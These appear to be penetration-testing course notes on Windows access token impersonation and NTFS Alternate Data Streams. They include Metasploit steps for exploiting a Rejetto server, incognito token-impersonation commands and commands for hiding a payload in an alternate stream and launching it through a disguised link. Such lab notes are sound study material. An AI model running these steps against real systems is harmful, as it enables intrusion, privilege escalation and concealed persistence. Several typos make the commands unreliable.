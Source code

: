 ### Access Token Impersonation

* Local Security Authority Subsystem Service (LSASS) manages access tokens
* Created after login, winlogon.exe creates access token
    * Access token are tied to user identity and their respective privileges
* Will be assigned one of the following security levels
    * Impersonate level tokens: Created after non interactive logins, ex: through system services or domain logons
        * Can only used on local systems
    * Delegate level tokens: created after interactive logins, ex: login screen, RDP session etc 
        * Can be used on any remote system recognizing that login
* Impersonation attacks will make use of following priveleges
    * SeAssignPrimaryToken
    * SeCreateToken
    * SeImpersonatePrivilege
* Lab 
    * Exploitation
        * The given target is vulnerable to rejetto file server exploit. So exploit that using msfconsole
            * Search reject; use 0; set rhosts; run
        * This will give you a meterpreter session
    * Privilege escalation
        * The privilege escalation will be achieved through Access token impersonation
        * Metasploit has an inbuilt module “incognito”
            * load incognito -> will load the module
            * list_tokens -u -> will list all the available tokens for impersonation
            * impersonate_token "ATTACKDEFENSE\Administrator" —> will perform the impersonation
        * Edge cases
            * In case “list_tokens” doesn’t show any active tokens, the privilege escalation can be done by create a SYSTEM token and then impersonating it. This is done through potato attack (google for more information)

### Windows file system vulnerabilities - Alternate Data Streams

* ADS is an NTFS file attribute, was designed to provide compatibility in Mac OS
* NTFS files always have two forks/streams
    * Data Stream: contains data
    * Resource stream: contains metadata
* Malicious code can be hidden inside resource stream to evade detection
* Demo (no lab)
    * Open cmd.exe
    * Normal file creation
        * notepad test.txt
        * Right click on the file and open properties, this is the resource stream
    * Malicious file creation
        * Notepad text.tct:secret.txt
        * Notepad complains that file doesn’t exist, click create file
        * This way you can keep hidden content in resource stream of a file
    * Demo Malicious
        * winPEAS64 (This is the tool/payload)
        * Type payload.exe > windowsLog.txt:winpeas.exe (windowsLog.txt can be any file)
        * Start windowsLog.txt:winpeas.exe (access denied error)
        * Mklink wupdate.exe C:\temp\windowsLog.txt:windpeas.exe
            * Needs administrator access
            * So whenever windows update executes, winpeas.exe will be executed
